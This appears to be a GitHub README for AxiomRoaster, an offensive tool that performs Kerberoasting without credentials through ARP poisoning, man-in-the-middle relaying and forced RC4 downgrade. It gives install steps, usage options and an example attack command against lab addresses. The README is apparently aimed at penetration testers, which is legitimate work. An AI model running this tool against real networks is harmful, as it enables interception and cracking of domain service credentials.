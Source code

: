 ## AxiomRoaster

Zero-auth Kerberoasting utility

![](screens/example.png)

How to achieve Kerberoasting with no authentication ?
- ARP poisoning
- MITM full packet relaying
- Interception of legitimate authenticators (encrypyted timestamps)
- AS-REQ crafting to request service tickets without a valid TGT
- Forced RC4 downgrade to improve cracking speed
- Sweet looking terminal for cool screenshots in your reports
- And more… :)

TODO list :
- Implement AS_REQ roasting for relayed authenticators.
- Implement self-made full packet relaying, instead or relaying on Linux's kernel doing it for us. This will allow for more control over what we send and block.

## Note

IMPORTANT : The tool does not yet implement automated full-duplex relaying. It instead depends on the Linux Kernel to do it for you. Make sure to enable IP forwarding :

```bash
$ sudo sysctl net.ipv4.ip_forward=1
```

## Installation

This is a standard PIP package, simply run :

```bash
$ git clone git@github.com:mallo-m/AxiomRoaster.git
$ cd AxiomRoaster
$ python3 -m venv venv
$ source ./venv/bin/activate
$ python3 -m pip install .
$ axiom-roaster -h
```

## Usage

```bash
usage: axiom-roaster [-h] --iface IFACE --dcs DCS [DCS ...] --targets TARGETS [TARGETS ...] --spn SPN [SPN ...] [--source-mac SOURCE_MAC]

Zero-auth Kerberoasting and AS-REQ roasting

options:
  -h, --help            show this help message and exit
  --iface IFACE         The interface to listen/attack on
  --dcs DCS [DCS ...]   List of domain controllers to relay authenticators to. Usually one is enough.
  --targets TARGETS [TARGETS ...]
                        List of IP to poison, at least one is required
  --spn SPN [SPN ...]   List of SPNs to attack
  --source-mac SOURCE_MAC
                        Our MAC address. Where to redirect packets to. If not provided, retrieved automatically from the specified interface.
```

Example usage :

```bash
$ sudo axiom-roaster --iface eth0 --dcs 192.168.57.15 --targets 192.168.57.20 --spn svc_mssql svc_not_a_da
```

## Community

Opening issues or pull requests very much welcome.
Suggestions welcome as well.


